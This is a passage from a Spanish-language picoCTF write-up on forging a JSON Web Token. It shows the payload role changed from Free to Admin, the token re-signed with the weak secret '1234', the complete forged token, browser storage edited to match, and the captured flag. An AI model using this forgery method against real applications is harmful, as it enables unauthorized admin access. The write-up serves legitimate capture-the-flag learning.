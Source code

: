 ```json
  "iat": 1744758823,
  "userId": 1,
  "email": "free"
}
```

```json
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1745363623,
  "iat": 1744758823,
  "userId": 2,
  "email": "admin"
}
```

9. Modificamos sus valores en Verify Signature
```json
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload), your-256-bit-secret
)
```

```json
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload), 1234
)
```

10. Copiamos el nuevo token y lo pegamos en auto-token
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NDUzNjM2MjMsImlhdCI6MTc0NDc1ODgyMywidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.wR0doqr9-BXkFDuLdRwS6B9UXhgUizT1m2qHXWmLM1I
```

11. Modificamos los valores de token-payload en inspeccionar para que coincidan con los nuevos valores del token
```json
{"role":"Free","iss":"bookshelf","exp":1745363623,"iat":1744758823,"userId":1,"email":"free"}
```

```json
{"role":"Admin","iss":"bookshelf","exp":1745363623,"iat":1744758823,"userId":2,"email":"admin"}
```

12. Recargamos la página y obtenemos la bandera
```
Great job! Here’s your flag:picoCTF{w34k_jwt_n0t_g00d_7745dc02}
```



## SQL Direct
